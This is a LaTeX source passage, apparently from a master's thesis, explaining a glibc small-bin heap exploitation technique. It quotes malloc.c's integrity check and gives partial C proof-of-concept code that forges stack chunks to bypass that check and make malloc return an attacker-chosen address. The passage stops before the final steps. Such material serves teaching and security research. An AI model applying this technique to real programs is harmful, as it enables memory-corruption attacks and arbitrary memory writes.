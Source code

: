 \documentclass{masterthesis}
\newcommand*\sbs{small bins}
\begin{document}
This attack abuses the vulnerability inside \sbs{} to modify memory in any location. If you check the malloc source code, you can see there is a check for small chunk request, so , if the requested chunk fits inside the \sbs{} range, the heap manager use it  

\begin{lstlisting}[language=c,frame=tlrb]
if (in_smallbin_range (nb))
\end{lstlisting}

In the following we have below code. \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3635}{\texttt{malloc.c}, line 3635}} 

\begin{lstlisting}[language=c,frame=tlrb]
bck = victim->bk;
if (__glibc_unlikely(bck->fd != victim)) {
	 errstr = "malloc(): smallbin double linked list corrupted";
	 goto errout;
}
set_inuse_bit_at_offset(victim, nb);
bck->fd = bin;
\end{lstlisting}

AS you can see if we have control over the victim bck pointer and bypass the security check, libc return our fake chunk on the next smallbin allocation. in other words, we can return a chunk to any address. now we explain it in a real sample:

\begin{lstlisting}[language=c,frame=tlrb]
 intptr_t* stack_buffer_1[4] = {0};
 intptr_t* stack_buffer_2[3] = {0};
 intptr_t *victim = malloc(0x100);
 intptr_t *victim_chunk = victim-2;
\end{lstlisting}

At first, we allocate a small chunk, then calculate the real address of the chunk by subtracting header size from the data section address like always.

\begin{lstlisting}[language=c,frame=tlrb]
 stack_buffer_1[0] = 0;
 stack_buffer_1[1] = 0;
 stack_buffer_1[2] = victim_chunk;

 stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
 stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
\end{lstlisting}
Now we forge a fake chunk, point the bck pointer of buffer\_1 to the victim, the fwd pointer of buffer\_1 to buffer\_2, also, the bck pointer of buffer\_2 to buffer\_1. In this way, we can bypass the \sbs{} security check. 
\begin{lstlisting}[language=c,frame=tlrb]
void *p5 = malloc(1000);
free((void*)victim);
void *p2 = malloc(1200);
\end{lstlisting}
 
\end{document}

